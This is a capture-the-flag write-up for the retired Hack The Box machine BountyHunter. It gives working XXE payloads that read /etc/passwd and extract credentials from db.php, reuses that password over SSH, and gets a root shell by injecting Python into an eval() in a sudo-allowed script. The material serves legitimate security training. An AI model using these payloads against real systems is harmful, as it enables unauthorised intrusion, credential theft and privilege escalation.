

# BountyHunter

This is the write-up for the box BountyHunter that got retired at the 20th November 2021.
My IP address was 10.10.14.7 while I did this.

Let's put this in our hosts file:
```markdown
10.10.11.100    bountyhunter.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/bountyhunter.nmap 10.10.11.100
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d44cf5799a79a3b0f1662552c9531fe1 (RSA)
|   256 a21e67618d2f7a37a7ba3b5108e889a6 (ECDSA)
|_  256 a57516d96958504a14117a42c1b62344 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web service has a custom developed website and on the top right is a menu.
One of the menus _"Portal"_ forwards to _portal.php_, which is under development and contains another link to _log_submit.php_.

The title of the page is _"Bounty Report System - Beta"_ and has four input fields:



Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://10.10.11.100 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It finds _db.php_, that has no contents when browsing there and the directory _/resources_ which contains JavaScript files and one _README.txt_ with a ToDo list:
```
Tasks:

[ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
[X] Write tracker submit script
[ ] Connect tracker submit script to the database
[X] Fix developer group permissions
```

By sending data to the form on _log_submit.php_ and intercepting the request with a proxy like **Burpsuite**, the request can be analyzed:
```
POST /tracker_diRbPr00f314.php HTTP/1.1
Host: 10.10.11.100
(...)

data=PD94bWwgIHZlcnNpb24(...)
```

The value of the parameter _data_ is Base64 encoded and when decoding, it shows that it is **XML** data:
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>Test1</title>
		<cwe>Test2</cwe>
		<cvss>1</cvss>
		<reward>2</reward>
		</bugreport>
```

When seeing XML in a HTTP request, a recommendation is to test for **XML External Entity Injection (XXE)**.
Several payloads can be found on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection) and we can test a basic request:
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE replace [<!ENTITY example "Doe"> ]>
		<bugreport>
		<title>&example;</title>
		<cwe>Test2</cwe>
		<cvss>1</cvss>
		<reward>2</reward>
		</bugreport>
```

After Base64-encoding and URL-encoding the data, the entity will be parsed and displays _"Doe"_ in the specified tags.

Testing to retrieve _/etc/passwd_ file:
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
		<bugreport>
		<title>&test;</title>
(...)
```

It works and the vulnerability can be used to read files of the web service like _db.php_.
As PHP files have many special characters, it is possible to extract them with a **PHP filter**:
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?><!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
(...)
```

The file can now be Base64-decoded and it contains credentials:
```
cat db.b64 | base64 -d
```
```php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
```

In the _/etc/passwd_ file, it showed the only user with shell access is _development_, so lets test if the password was reused for this user on SSH:
```
ssh development@10.10.11.100
```

The password was reused and login is possible.

## Privilege Escalation

When checking the `sudo` privileges, the user _development_ is able to execute a Python script as root:
```
User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

The Python script _ticketValidator.py_ loads a file that has to have specific conditions:
- File extension ends with _.md_
- Starts with _"# Skytrain Inc"_
- Starts with _"## Ticket to "_
- Starts with _"\_\_Ticket Code:\_\_"_
- Starts with "**"
- Ticket code % 7 == 4

At the end it uses the _eval_ function, which can be used to execute arbitrary code.

Creating the payload _inject.md_ as the script needs it:
```
# Skytrain Inc
## Ticket to  
__Ticket Code:__
**11+__import__("os").system("id")
```

Executing _ticketValidator.py_:
```
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```
```
Please enter the path to the ticket file.
inject.md
Destination:
uid=0(root) gid=0(root) groups=0(root)
Invalid ticket.
```

The syntax is correct and it successfully executes the `id` command, so the payload can be used to execute `bash`:
```
(...)
**11+__import__("os").system("bash")
```

After executing _ticketValidator.py_, it starts a shell as root!
